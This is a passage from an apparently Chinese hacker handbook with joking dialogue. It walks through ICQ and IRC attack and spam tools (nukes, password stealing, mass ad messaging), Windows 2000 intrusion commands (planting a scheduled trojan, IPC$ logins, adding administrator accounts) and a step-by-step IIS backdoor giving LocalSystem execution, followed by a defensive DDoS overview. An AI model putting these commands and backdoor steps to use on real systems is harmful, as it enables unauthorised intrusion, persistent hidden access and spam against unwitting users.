- port：指定的端口

如果远方的用户和你连接，那么偷来的密码就会显示在“Password”窗口内。如果你的密码丢了，可以用这个软件来找回：）。

> 阿瓜胡言：“是不是有点玄呢？这个软件也许只能有部分成功率，不然的话，那还了得。而且 ICQ 也在不断更新，虽然没有 QQ 那么快，旧的工具对新的环境也有不适应的时候。有可能，不一定……”

### 11.1.3 DFM

最新的，可以攻击 ICQ 和查看 ICQ 隐身人的小工具，软件界面如图11-1-6所示。


11-1-6 DFM

在“UIN”框中填写自己的 ICQ 号，“Password”框中填写密码，“Port”是端口号。如图11-1-7所示。


11-1-7 填写信息

> 阿瓜小注：一定要填真的、有效的用户和密码；

下面的“Target UIN”框内填写目标号码。填完后，可以用下面的 Check 来测试是否连接正常。用“Nuke”可以攻击目标。

> 阿瓜：“小把戏啦！比起 DDoS 差远了。不过是玩玩嘛，大家都不必太认真，哈哈。”

### 11.1.4 搜易ICQ广告之星

搜易“ICQ 广告之星”可以在用户没有安装 ICQ 软件和接收方离线的情况下向成千上万的 ICQ 用户发送广告消息。只需将 ICQ 号码编辑成一行一个号码的文本文档，即可采用多线程方式快速向这些号码发出广播消息。“ICQ 广告之星”是一个全免费的软件，没有任何功能上或者使用次数、时间上的限制。

软件的使用界面如图11-1-8所示。


11-1-8 搜易 ICQ 广告之星

> 阿瓜：“这个东西有什么用呢？除了发布广告以外，我觉得还可以发布一些寻人启事什么的，这样的话真是做了大大的好事。当然寻人不一定就是寻找走失的人，也可以是找朋友呀，我就是用这个东西把自己推销出去，赚来大批洋 MM 的，呵呵。”

使用方法如下。

首先要创建一个 ICQ 号的群发列表。创建方法是这样的。


11-1-9 工具栏

如图11-1-9，在工具栏上选择“创建”按钮，弹出一个对话框。

如图11-1-10，按上面说的做就行，随便填上一串数字就行。填完后，确定，进入如图11-1-11对话框。


11-1-10 确定起始号码

11-1-11 群发数量

按提示，输入 ICQ 列表包含的 ICQ 号数量。填完后，确定。这样，列表创建完毕。弹出一个对话框，保存文件即可。

要使用此列表还需导入列表文件。在工具栏上单击“导入”按钮，出现如图11-1-12所示窗口。


11-1-12 导入列表

选择刚刚创建的列表文件，打开。可以看到在参数设置区域，号码列表路径被添加。在“发送邮件地址”栏填入用来联系的邮件地址，“发送单位名称”栏填上你喜欢的名字。如图11-1-13所示。


11-1-13 设置联系信息

> 阿凡小注：线程数量影响发送速度，请适量设定。怎么设合适，前面已经说过，就不再废话了。

回到主界面，点“消息内容设置”，在下面填写要发送的“消息主题”和“消息内容”。然后点击“发送”即可。如图11-1-14所示。


11-1-14 填写消息

> 阿凡小注：ICQ 对消息长度本身是有限制的，特别是群发消息时更有一定限制。本软件限制消息主题为 50 个西文字符，消息内容为 300 个西文字符，超过长度后将无法输入。

榕哥暗想：“用这个方法泡妞虽然不太适合我的身份，但是偷偷试试也未尝不可……”

### 11.1.5 ICQ Interest Search

ICQ Interest Search V5.0 让你快速在 ICQ 上找到有同样兴趣的好友，你不需要有 ICQ UIN，也不需要有真实的邮件地址。可马上匿名传出信息，隐藏你真实的 IP。软件的界面如图11-1-15所示。


11-1-15 ICQ Interest Search

软件包括两个方面的功能，一是可以搜索指定的 ICQ 用户，二是可以发送匿名消息，但是这个功能需要注册才能用。

搜索之前在“Filter”选项卡内填写各种信息，如图11-1-16所示。


11-1-16 设置信息

填写完毕后，切换到“Search”面板即可，选择搜索方式。例如要以姓（surname）为关键字搜索，应当如下设置，在“Value”框内填写要搜索的值，如图11-1-17所示。


11-1-17 确定搜索方式

如果不选中“Don't send, just collect to”选项，则每搜索到一个符合要求的 ICQ 号就会向该号发送一条设定的消息。如果选中该项，则扫描到后并不发送消息，只是把号码保存到你指定的文件里。指定文件位置只要点右边的小文件夹就行。“Search threads”是设置搜索线程。

确定后，即可开始搜索，点击图11-1-15中的“Start”按钮就启动了。

> 阿人乱语：“这个软件提供的搜索功能不是很强，但是它可以匿名发消息，这个功能还是很有用的。”

选择“Send”，设置发送的消息，如图11-1-18所示。


11-1-18 设置发送的消息

发送的消息支持三种方式，如图11-1-19所示。


11-1-19 URL方式

选择“URL”方式，填写要发送的 URL 地址和描述信息即可。如图11-1-19所示。


11-1-20 ICQ message方式

就是发送 ICQ 信息，不用使用 ICQ 软件，直接用这个软件就可以发送 ICQ 消息。在“UIN list”框内添加要发送到的 ICQ 号，在“Text”框内填写要发送的文本。还可以选择代理方式。把“Proxy”的内容换成“Use Sock5 Proxy”即可使用代理发送消息。如图11-1-20所示。


11-1-21 页面信息方式

选择页面信息设置和上面的设置方法差不多，填好各个部分。如图11-1-21所示。

阿瓜：“洋货就是没国货好用，编个软件都这么乱七八糟，与中国人的思维习惯根本不同，很不习惯，要不是我见多识广，各种各样的软件都见识过，还真摆不平它。不过，一定还是要支持国货的啊！”

榕哥听阿瓜把他的研究报告论述完毕，评论道：“基本上和 QQ 的套路差不多嘛！不过明显数量不足，可见大家还是支持国货的。支持国货是不错，但是更重要的是拓展海外市场，嘿嘿，特别是这样的‘商品’。”

## 11.2 IRC工具

IRC 是 Internet Relay Chatting 的缩写，也就是“Internet 在线聊天系统”的意思，这种聊天系统很受黑客们的偏爱。现在一些网站的聊天室就是这种类型的。

阿瓜暗想：“榕哥好早以前就用这种方式聊天了，终究是前辈啊！”

榕哥暗想：“阿瓜这小子肯定会想到我很久以前就用这种方式聊天，一定会羡慕我的前辈身份。”

### 11.2.1 aZRailL4

最好的 MIRC 攻防工具，很好的交谈方式，有炸弹，以及木马扫描等。总之，有很多功能，很专业。

榕哥：“阿瓜，你不是一直梦想拥有一个工具，这个工具可以把常用的黑客功能都集中在一起，还支持聊天功能，能连接到黑客常用的聊天室，在遇到困难时可以随时请教高手，也可以边玩黑客游戏，边泡 MM，是不是？”

阿瓜：“咦？看来我们在一起时间长了，果然能心灵相通。我还没说出来，你就知道了，这真是奇妙啊！”

榕哥：“奇妙个头，你做白日梦时都念叨过几百遍了。我能不知道吗？笨！”

阿瓜被打晕了头，嘟囔道：“我刚才又在睡觉？我怎么不记得了……”

榕哥趁阿瓜迷糊之际，赶紧说：“阿瓜，快去拿些吃的、喝的。我们开始今天的讨论。”

首先运行软件，界面如图11-2-1所示。


11-2-1 aZRail4

我们先看聊天功能的设置。

点“File”→“Options”，弹出如下对话框，如图11-2-2所示。


11-2-2 设置

这里包括各种设置，上图显示的是“Connect”的设置，也就是连接设置。

从“IRC Server”列表框中可以选择要连接的聊天室服务器。点“Add”按钮出现如图11-2-3对话框。

在这个窗口内可以添加自己喜欢的聊天服务器信息。“Description”是关于此聊天室服务器的描述；“IRC Server”里填写该服务器的地址；“Port”里填写该服务器的端口地址；“Group”是指所在的组，如果服务器要求密码，那么就在“Password”内填上相应的密码。都填写完毕后，按下“Add”按钮，就把此服务器加入了“IRC Server”列表，使用时只需在列表内选择，再按下“Connect to IRC Server”即可。


11-2-3 添加聊天服务器

回到图11-2-2中，下面的部分是个人信息；比较重要的是“E-Mail Address”和“Nick name”，分别是 E-Mail 地址和昵称。如果选中“Invisible mode”则信息不可见。设定完毕，“OK”。


11-2-4 连接选项设置

如图11-2-4，在这里设置关于连接选项。各个选项的含义为：

- Connect on startup——启动时自动连接；
- Reconnect on disconnection——断线重连；
- Pop up connect dialog on startup——启动时弹出连接对话框；
- Move to top of list on connect——（服务器名）连接时移动到列表顶端。

下面的“When connecting”是指连接时如果不能顺利连接，则重复多少次，维持多少时间。如果选中“Try next server in group”，那么当连接不上该服务器时会自动改为连接列表中的下一个服务器。

“Local info”和“Identd”里显示的是本地机器的名称、操作系统等信息，由软件自己填充。


图11-2-5 防火墙设置

图11-2-5中显示的是防火墙设置选项。选中“Use SOCKS firewall”可以使用防火墙，选择“Socks4”或者“Socks5”协议，这要根据防火墙所在的服务器来决定。下面的“Hostname”中填写服务器地址，“User ID”和“Password”分别是用户名称和密码，“Port”是防火墙的端口号。如果是拨号上网，防火墙一般用不到。


11-2-6 IRC设置

图11-2-6是关于聊天时的功能的一些高级选项。择要介绍一下各个选项的含义。

- Prefix own messages——给自己发送的消息添加前缀
- Whois on query——显示谁在查询
- Show address——显示地址

如图11-2-7是 IRC 的子选项，这里只简单地介绍一部分。这些都是关于聊天的各个方面的设置。


11-2-7 信息设置

“messages”是进行聊天时的信息的设置。“Timestamp events, format”是指显示时间的格式，可以自行修改。“Strip codes from incoming messages”是对来信息显示格式的设置。若选中“Only if the number of codes exceeds ??”，则当字符超过多少的数量时才应用这些格式。


11-2-8 信息记录

图11-2-8中“logging”是进行信息记录的设置。在“Automatically log”中选择记录方式，有四种方式可以选择：

- None——不记录；
- Channels——记录频道；
- Queries——记录查询；
- Both——记录全部。

可以选择按天、周、月三种方式记录数据。


11-2-9 声音设置

图11-2-9“sound”是设置各种事件的提示声音。在“On Event”下方框内选择事件。点下面的长条按钮选择声音文件。

#### 文件传输设置

DCC 是文件传输的设置，默认即可，如图11-2-10所示。其它的设置不再赘述，一般默认即可，或者用多了自己试着改变一下也可以。


11-2-10

下面看看使用方法。

使用之前首先要连接到服务器。连接之后怎么聊天就不说了，想必大家都有过在聊天室聊天的经验，这个和在聊天室差不多。我们看看其它功能。

先看传送文件的功能。点菜单“DCC”→“Send”，出现如图11-2-11对话框。


11-2-11 文件传送

在“Nick”中填上发送文件的目标名称，在对话框中选择好文件，然后按下“Send”按钮。文件就会被发出。

其次是攻击功能。


11-2-12 炸弹攻击

从上面的界面可以看出这个软件的功能非常多，看看在菜单里列出的内容就知道了。

## 第十一章 言无不尽——ICQ&IRC工具的支持

如图 11-2-12 所示，可以选择好几种攻击（NUKE）方式，这就是炸弹功能，俗称踢人。

如图 11-2-13 所示，选择“EnableD!!!”菜单项即可启动木马扫描功能。


11-2-13 木马扫描

> 阿瓜：“这个软件真的能实现所有的黑客功能吗？我感觉好像不是啊！”
>
> 榕哥：“当然不是，谁说是了。我也没说是啊！我只是说这个软件是最好的 IRC 聊天工具，功能强大而已。”
>
> 阿瓜：“可是，……好像你提过我想要一个集各种功能于一身的综合工具……”
>
> 榕哥：“提过？对啊，我是提过，我知道你想要，可是我没说我有啊！其实，我又何尝不想呢……”
>
> 阿瓜悟道：生活嘛！沟通是很重要的，所以沟通工具也是很重要的，因此会使用沟通工具是更重要的，故而能灵活运用沟通工具是最重要的。


# 附录

## 附录1

## WIN2000 下黑客入侵 CMD 常用命令


看过了兵器谱，想必大家对许多的黑客软件已经很熟悉了吧，不知道各位在做黑客的时候是否常用到 WIN2000 CMD 命令呢？这两天应多数新手的要求整理了一些入侵常用命令，为了方便大家理解，我特意截了图。好了，废话少说，上正题喽~~~~

### 1. at

```
作用：添加计划任务

格式：at \\xxx.xxx.xxx.xxx time server

参数：
(1) time 为远程计算机的当前时间
(2) server 是远程计算机上的程序

net time \\xxx.xxx.xxx.xxx  // 将会返回一个时间。

at \\xxx.xxx.xxx.xxx 6:16 xx.exe  // 假设我们上传了一个木马，名为 XX.EXE，它是一个 TELNET 服务，等到了 6:16 就可以连接到对方了。
```

### 2. copy

```
copy 复制命令大家都很清楚了，作用、格式我就不用多说了，请各位直接进正题，看看怎么把本地文件放到远程计算机上。

(1) copy index.htm \\xxx.xxx.xxx.xxx\c$\index.htm  // 把本地 C 盘下的 index.htm 复制到 xxx.xxx.xxx.xxx 的 C 盘下

(2) copy index.htm \\xxx.xxx.xxx.xxx\admin$\index.htm  // 把本地 C 盘下的 index.htm 复制到 xxx.xxx.xxx.xxx 的 WINNT 目录里（admin$ 就是 winnt）
```

### 3. net computer

```
作用：在域数据库中增加或删除机器。

格式：net computer \\computername /add | /del

参数：
(1) \\computername 指定要添加到域或从域中删除的计算机。
(2) /add 将指定计算机添加到域。
(3) /del 将指定计算机从域中删除。

例：net computer \\build /add  // 将计算机 build 添加到登录域。
```

### 4. net config

```
作用：显示当前运行的可配置服务，或显示并修改某项服务的设置。

格式：net config service options

参数：
(1) 键入不带参数的 net config 显示可配置服务的列表。
(2) service 通过 net config 命令进行配置的服务（server 或 workstation）。
(3) options 服务的特定选项。

例：net config workstation  // 了解本机的配置信息。
```


图 net config

### 5. net localgroup

作用：添加、显示或更改本地组。

格式：net localgroup groupname /add /comment:"text" | /delete /domain

- 参数：
- (1) 键入不带参数的 net localgroup 显示服务器名称和计算机的本地组名称。
- (2) groupname 要添加、扩充或删除的本地组名称。
- (3) /comment "text" 为新建或现有组添加注释。
- (4) /domain 在当前域的主域控制器中执行操作，否则仅在本地计算机上执行操作。
- (5) name ... 列出要添加到本地组或从本地组中删除的一个或多个用户名或组名。
- (6) /add 将全局组名或用户名添加到本地组中。
- (7) /delete 从本地组中删除组名或用户名。

例：net localgroup administrators build /add  // 将名为 build 的 ID 添加到本地管理员组去。


图 net localgroup

### 6. net start、net stop

作用：启动、停止网络服务

```
net start service
net stop service
```

- 1. net start、net stop 是启动或停止的行为；
- 2. service 是网络服务名

```
net start telnet    // 启动 TELNET
net stop telnet     // 关闭 TELNET
```

service 有以下服务：alerter[警报]；client service for netware[NETWARE 客户端服务]；clipbook server[剪贴簿服务器]；computer browser[计算机浏览器]；directory replicator[目录复制器]；ftp publishing service（FTP）[FTP 发行服务]；lpdsvc；messenger[信使]；net logon[网络登录]；network dde[网络 DDE]；network dde dsdm[网络 DDE DSDM]；network monitor agent[网络监控代理]；nt lm security support provider[NT LM 安全性支持提供]；ole[对象链接与嵌入]；remote access connection manager[远程连接管理器]；remote access lnsnap service[远程访问 LSNSAP 服务]；remote access server[远程访问服务器]；remote procedure call (rpc) locator[远程过程调用定位器]；remote procedure call (rpc) service[远程过程调用服务器]；schedule[调度]；server[服务器]；simple TCP/IP services[简单 TCP/IP 服务]；snmp；spooler[后台打印程序]；TCP/IP netbios helper[TCP/IP NETBIOS 辅助工具]；ups；workstation[工作站]。

下列服务仅在 WINDOWS NT SERVER 中可用：file server for macintosh；gateway service for netware；microsoft dhcp server；print server for macintosh；remoteboot；windows internet name service。


图 net start / net stop

### 7. net session

作用：列出或断开本地计算机和与之连接客户端的会话，也可写为 net sessions 或 net sess。

```
net session \\computername /delete
```

- 1. 键入不带参数的 net session 显示所有与本地计算机会话的信息。
- 2. \\computername 标识要列出或断开会话的计算机。
- 3. /delete 结束与 computername 计算机会话并关闭本次会话期间计算机的所有进程。

例：net session \\build  // 要显示计算机名为 build 的客户端会话细节。

### 8. net share

作用：创建、删除共享的资源。

```
net share sharename = drive:path /users:number | /unlimited /remark:"text"
```

- 1. 键入不带参数的 net share 显示本地计算机上所有共享资源的信息。
- 2. sharename 是共享资源的网络名称。
- 3. drive:path 指定共享目录的绝对路径。
- 4. /users:number 设置可同时访问共享资源的最大用户数。
- 5. /unlimited 不限制同时访问共享资源的用户数。
- 6. /remark:"text" 添加关于资源的注释，注释文字用引号引住。

例：net share d = d:\tanker  // 将 d:\tanker 目录设为共享驱动器 d。


### 9. net name

作用：添加或删除消息名，或显示计算机接收信息的名称列表。

```
net name name /add | /delete
```

- 1. 键入不带参数的 net name 列出当前使用的名称。
- 2. name 指定接收消息的名称。
- 3. /add 将名称添加到计算机中。
- 4. /delete 从计算机中删除名称。


### 10. net user

作用：添加或更改用户账号或显示用户账号信息。

```
net user username password | * options /domain
```

- 1. 键入不带参数的 net user 查看计算机上的用户账号列表。
- 2. username 添加、删除、更改或查看用户账号名。
- 3. password 为用户账号分配或更改密码。
- 4. * 提示输入密码。
- 5. /domain 在计算机主域的主域控制器中执行操作。

```
net user build  // 查看 build 用户现有的账号。
net user guest /active:yes  // 将 Guest 用户激活，guest 是 NT 的默认用户，而且无法删除
net user guest liuguang1982  // 把 guest 的密码改为 liuguang1982
```

### 11. net use

作用：连接计算机或断开计算机与共享资源的连接，或显示计算机的连接信息。

```
net use devicename | * \\computername\sharename [\volume password | *] [/user:domainname\username] [/delete | /persistent:yes | no]
```

- (1) 键入不带参数的 net use 列出网络连接。
- (2) devicename 指定要连接到的资源名称或要断开的设备名称。
- (3) \\computername\sharename 服务器及共享资源的名称。

```
(1) net use \\xxx.xxx.xxx.xxx\ipc$ "liuguang1982" /user:"build"  // 用户是 build，密码是 liuguang1982，对方 IP 为 xxx.xxx.xxx.xxx
(2) net use \\xxx.xxx.xxx.xxx\ipc$ /delete  // 退出 IPC 连接
(3) net user build liuguang1982 /add  // 加一个 build 的用户，密码为 liuguang1982
```

### 12. net view

作用：显示域列表、计算机列表或指定计算机的共享资源列表。

```
net view \\computername | /domain domainname
```

- (1) 键入不带参数的 net view 显示当前域的计算机列表。
- (2) \\computername 指定要查看其共享资源的计算机。
- (3) /domain domainname 指定要查看其可用计算机的域。

```
net view \\xxx.xxx.xxx.xxx  // 查看 xxx.xxx.xxx.xxx 的共享资源列表。
```


图 net view

### 13. net send

作用：向网络的其他用户、计算机或通信名发送消息。

```
net send name | * | /domain:name | /users message
```

- 参数：
- (1) name 要接收发送消息的用户名、计算机名或通信名。
- (2) * 将消息发送到组中所有名称。
- (3) /domain:name 将消息发送到计算机域中的所有名称。
- (4) /users 将消息发送到与服务器连接的所有用户。
- (5) message 作为消息发送的文本。

```
net send * "你好啊，我是 tanker"  // 给所有连接到服务器的用户发送消息。
net send gg "你好啊，我是 tanker"  // 给计算机名叫 gg 的用户发送消息。
```

（注意：发送的消息要用 " " 括起来，而不是 “ ”）


图 net send

### 14. Shutdown

作用：关闭对方 NT 服务器的命令。

```
shutdown \\xxx.xxx.xxx.xxx time
```

参数：time 是重启的时间。

```
Shutdown \\xxx.xxx.xxx.xxx t:20  // 20 秒后将 xxx.xxx.xxx.xxx 自动关闭
```

### 15. telnet

作用：登录远程计算机。

```
telnet xxx.xxx.xxx.xxx port
```

参数：port 为登录端口号，系统默认是 23 端口，可缺省。

例：telnet xxx.xxx.xxx.xxx 99  // 大家也知道 TELNET 的默认连接端口是 23，在正常情况下不用加端口号。我们通过木马的形式去连接的话，就得加上端口号了，99 就是我们在肉鸡上木马开的端口号。

好了，各位慢慢体会啊，这次写得比较匆忙，等有空了，再给大家来一份满汉全席命令集。

## 附录2

## 永远的后门

IIS 是比较流行的 WWW 服务器，设置不当漏洞就很多。入侵 IIS 服务器后留下后门，以后就可以随时控制。一般的后门程序都是打开一个特殊的端口来监听，比如有 NC、NTIM、RNC 等等，都是以一种类 Telnet 的方式在服务器端监听远程的连接控制。不过一个防范比较严密的 WWW 站点（他们的管理员吃了苦头后）一般通过防火墙对端口进行限制，这样除了管理员开的端口外，其他端口就不能连接了。但是 80 端口是不可能关闭的（如果管理员没有吃错药）。那么我们可以通过在 80 端口留后门，来开启永远的后门。如果你对此有兴趣，跟我来……

当 IIS 启动 CGI 应用程序时，缺省用 CreateProcessAsUser API 来创建该 CGI 的新 Process，该程序的安全就由启动该 CGI 的用户决定。一般匿名用户都映射到 IUSR_computername 这个账号，当然可以由管理员改为其他的用户，或者由浏览器提供一个合法的用户。两者的用户权限都比较低，可能都属于 guest 组的成员。其实我们可以通过修改 IIS 开启 CGI 的方式来提高权限。我们来看 IIS 主进程本身是运行在 localsystem 账号下的，所以我们就可以得到最高 localsystem 的权限。

入侵 WEB 服务器后，一般都可以绑定一个 CMD 到一个端口来远程控制该服务器。这时可以有 GUI 的远程控制，比如 3389，或者类 telnet 文本方式的控制，比如 RNC。NC 肯定是可以用的，其实这也足够了。

```
1、telnet 到服务器
2、cscript.exe adsutil.vbs enum w3svc/1/root
KeyType: (STRING) "IIsWebVirtualDir"
AppRoot: (STRING) "/LM/W3SVC/1/ROOT"
AppFriendlyName: (STRING) "默认应用程序"
AppIsolated: (INTEGER) 2
AccessRead: (BOOLEAN) True
AccessWrite: (BOOLEAN) False
AccessExecute: (BOOLEAN) False
AccessScript: (BOOLEAN) True
AccessSource: (BOOLEAN) False
AccessNoRemoteRead: (BOOLEAN) False
AccessNoRemoteWrite: (BOOLEAN) False
AccessNoRemoteExecute: (BOOLEAN) False
AccessNoRemoteScript: (BOOLEAN) False
```

### HttpErrors

| 属性 | 类型 | 值 |
|---|---|---|
| HttpErrors | LIST | 32 Items |

- "400,*,FILE,C:\\WINNT\\help\\iisHelp\\common\\400.htm"
- "401,1,FILE,C:\\WINNT\\help\\iisHelp\\common\\401-1.htm"
- "401,2,FILE,C:\\WINNT\\help\\iisHelp\\common\\401-2.htm"
- "401,3,FILE,C:\\WINNT\\help\\iisHelp\\common\\401-3.htm"
- "401,4,FILE,C:\\WINNT\\help\\iisHelp\\common\\401-4.htm"
- "401,5,FILE,C:\\WINNT\\help\\iisHelp\\common\\401-5.htm"
- "403,1,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-1.htm"
- "403,2,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-2.htm"
- "403,3,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-3.htm"
- "403,4,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-4.htm"
- "403,5,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-5.htm"
- "403,6,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-6.htm"
- "403,7,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-7.htm"
- "403,8,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-8.htm"
- "403,9,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-9.htm"
- "403,10,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-10.htm"
- "403,11,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-11.htm"
- "403,12,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-12.htm"
- "403,13,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-13.htm"
- "403,15,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-15.htm"
- "403,16,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-16.htm"
- "403,17,FILE,C:\\WINNT\\help\\iisHelp\\common\\403-17.htm"
- "404,*,FILE,C:\\WINNT\\help\\iisHelp\\common\\404b.htm"
- "405,*,FILE,C:\\WINNT\\help\\iisHelp\\common\\405.htm"
- "406,*,FILE,C:\\WINNT\\help\\iisHelp\\common\\406.htm"
- "407,*,FILE,C:\\WINNT\\help\\iisHelp\\common\\407.htm"
- "412,*,FILE,C:\\WINNT\\help\\iisHelp\\common\\412.htm"
- "414,*,FILE,C:\\WINNT\\help\\iisHelp\\common\\414.htm"
- "500,12,FILE,C:\\WINNT\\help\\iisHelp\\common\\500-12.htm"
- "500,13,FILE,C:\\WINNT\\help\\iisHelp\\common\\500-13.htm"
- "500,15,FILE,C:\\WINNT\\help\\iisHelp\\common\\500-15.htm"
- "500,100,URL,/iisHelp/common/500-100.asp"

| 属性 | 类型 | 值 |
|---|---|---|
| FrontPageWeb | BOOLEAN | True |
| Path | STRING | "c:\\inetpub\\wwwroot" |
| AccessFlags | INTEGER | 513 |

# 附录

```text
[/w3svc/1/root/localstart.asp]
[/w3svc/1/root/_vti_pvt]
[/w3svc/1/root/_vti_log]
[/w3svc/1/root/_private]
[/w3svc/1/root/_vti_txt]
[/w3svc/1/root/_vti_script]
[/w3svc/1/root/_vti_cnf]
[/w3svc/1/root/_vti_bin]
```

不要告诉我你不知道上面的输出是什么哟！现在我们心里已经有底了，是不是？呵呵～管理员要倒霉了！

- 3. mkdir c:\inetpub\wwwroot\dir1

- 4. cscript.exe mkwebdir.vbs -c MyComputer -w "Default Web Site" -v "Virtual Dir1", "c:\inetpub\wwwroot\dir1"

这样就建好了一个虚目录“Virtual Dir1”，你可以用“1”的命令看一下。

- 5. 接下来要改变一下 Virtual Dir1 的属性为 execute。

```text
cscript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accesswrite "true" -s <this server>
cscript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accessexecute "true" -s <this server>
```

现在你已经可以 upload 内容到该目录，并且可以运行。你也可以把 cmd.exe、net.exe 直接拷贝到虚拟目录的磁盘目录中。

- 6. 以下命令通过修改 IIS metabase 来迫使 IIS 以本身的安全环境来创建新的 CGI process。

```text
Cscript adsutil.vbs set /w3svc/1/root/your directory/createprocessasuser false

注释：cscript windows script host.
adsutil.vbs windows iis administration script
后面是 iis metabase path.
```

这样的后门几乎是无法查出来的，除非把所有的虚目录查看一遍。

## 附录3

## 目前的分布式攻击系统及解决方法

目前我们所见过的分布式攻击系统一般都是基于客户机／服务器模式，而且这种模式正在向着更高的方向发展来使它的攻击更隐秘并进一步隐藏自己的真实位置。

最近这种攻击事件发生得越来越频繁，许多的国内外网站都声称遭到了这种手法的攻击。我们这篇文章将尽量为大家讲解这种攻击手法所采用的系统以及它的工作原理，并对它将来的发展方向作出我们自己的一些预测。

攻击者控制着几台称为 Master 的主机作为攻击的发动点，这些 Master 主机分别控制着大量的节点主机，这些大量的被控主机才是真正对受害者进行攻击的机器。这种攻击方式使得攻击者可以很容易隐藏自己的真实身份，也可以同样地隐藏那些 Master 主机。

从最近的一些事情来看，这些攻击事件都有一些共同的特征，我们也希望从这些明显的迹象中找出攻击进行的可能性原因。攻击的驻留程序一般都可能安装在那些没有打过补丁或没有进行过安全设置的薄弱主机之上。根据攻击形式的不同，这些程序有的需要 root 权限，有的不需要。比如有的攻击程序需要运用到 raw sockets 或者其他的特殊权限，那么具有 root 权限就是必须的；其他的一些驻留程序有可能仅需要普通用户的权限就可以。而有的机器会允许攻击者使用普通用户的权限来安装管理员级别的工具，并进行特殊的配置来隐藏已经被攻入的迹象。

为了达到相应的攻击效力必须安装一定的基础程序。因此，这些攻击系统的作者投入了大量的体力精力在这些基础程序的安装进程的自动控制上，攻击者通过对脚本程序的修改加快了这些基础下部组织的安装时间，使得攻击者可以随心所欲地快速对攻击进行配置。

最主要的攻击控制器可以是任意的系统及普通的硬件配置，因为它们所需要的网络流量和驻留程序都是很小的。而且攻击者还习惯在攻占主机上建立一个不会引人注意的用户帐户。

一旦驻留程序安装完毕并开始运行后，它们便向回通知 Master 主机，这也是驻留程序安装过程中的一部分，它知道 Master 主机的位置以及它所监听的端口号。Master 主机可以完全控制这些驻留程序，通知被控主机在什么时间，怎样来攻击哪里的主机。在更为诡异的高手进行攻击时，他们甚至可以通知被控主机来关闭或更改 Master 服务器，还可以把系统设置为自动地清理收尾工作。换句话说，Master 主机可以控制驻留程序在攻击过程结束后自动清除自己，并将系统的配置恢复到攻击前的样子。这就避免了为防止被检测工具发现，而必须花费大量的精力来手工清理现场。

平时还要做一些日常的普通工作，例如把你的一些必备工具复制到软盘或其它安全媒体上，以备用户所需，还应把系统中的配置文件全都备份到其它媒体上。为了更灵活地备份，你最好在系统中设置 Schedule 来定期地进行存储。这些备份没有必要进行得过于频繁，但还是应当有规律一些，特别是对于一些要求比较严格的系统。

很显然，为了抓获攻击者，网站的管理员应当利用已知的安全工具来收集尽量多的信息。但是在实际中太难了，随着攻击技术的发展，攻击者攻击手段不断提高，其掩盖行踪的手段也不断得到加强。为了应付这一切，网管们应当尽力学习更先进的技术并尽量多地参加相应的培训。阻断分布式攻击的重点在于找到所有的 Master 主机和装有驻留程序的主机，并找出攻击者所利用的系统漏洞，并尽力弥补。这是一个非常庞大的工程，所以我们应当先想办法使攻击的速度减弱下来。一种方法是首先定位 Master 主机，通过控制 Master 就打掉了攻击的控制中心，攻击行动也就缺少了领导者，但被攻击对象还是一直处于被攻击的状态下，除非攻击周期结束或者能够过滤所有的攻击包。

找出 Master 主机也是十分困难的。在目前的系统里，由于 Master 主机只是由于一些固有的原因会留下一点蛛丝马迹，所以追查起来还是很困难的。但是如果你知道了攻击的标准特征或许会好办一些。举个例子来说，如果你知道 Master 主机所监听的端口，那么你就可以在目标主机的端口上查看它与驻留程序主机间的通讯。而且，如果你知道了驻留程序主机使用的端口号的话，那么你就可以查看有哪些主机试图与这个端口进行联系。这种方法主要是：通过对某一台攻击主机进行检查来试图找出真正的控制主机。

假如 Master 主机和被控攻击机器间的通讯非常少的时候，就给我们造成了很大的麻烦，使得我们监听和捕获就很不容易了。如果真是这样的话，那么我们只好等待下一次攻击开始的时候再进行检查了，或者等到下一次控制信息被传送的时候，此外别无他法来定位 Master 主机了。在我们侦测的时间段内，我们应当在被控的攻击主机上放一个过滤程序，引导它的攻击包方向，使它定位在其它装置上，例如 `/dev/null`，这样攻击虽然没有停止，但并不对我们造成伤害，它也不会向攻击者报警，我们就可以继续查找 Master 主机了。

一旦找到 Master 主机，我们应当立即与这台 Master 主机的网管取得联系，并协商工作，如果找不到的话，无论我们做出多大的努力，我们仍然无法完全避免这种攻击的再次发生，以及将罪犯绳之以法。对付分布式攻击，主要是切断 Master 主机以及它所控制的所有主机的通讯，如果不这样做，你只能眼睁睁地看着自己的网络崩溃。

## 附录4

## 保护数据库服务器加强数据库安全

数据库是电子商务、金融以及 ERP 系统的基础，通常都保存着重要的商业伙伴和客户信息。不管数据完整性以及关系到系统安全，这些在数据库中都非常重要，但是数据库通常没有像操作系统和网络这样，在安全性上受到重视。数据库完整性和合法存取会受到很多方面的安全威胁，包括密码策略、系统后门、数据库操作以及本身的安全方案。

### 为什么数据库安全很重要？

- 1. **保护敏感信息和数据资产**

大多数企业、组织以及政府部门的电子数据都保存在各种数据库中。它们用这些数据库保存一些个人资料，比如员工薪水、医疗记录、员工个人资料等等。数据库服务器还掌握着敏感的金融数据，包括交易记录、商业事务和帐号数据，战略上的或者专业的信息，比如专利和工程数据，甚至市场计划等等。应该保护起来，防止竞争者和其他非法者获取资料。数据库服务器还保存着一些有关员工详细资料的内容，比如银行帐号、信用卡号码，以及一些商业伙伴的资料。

- 2. **数据库同系统紧密相关并且更难正确地配置和保护**

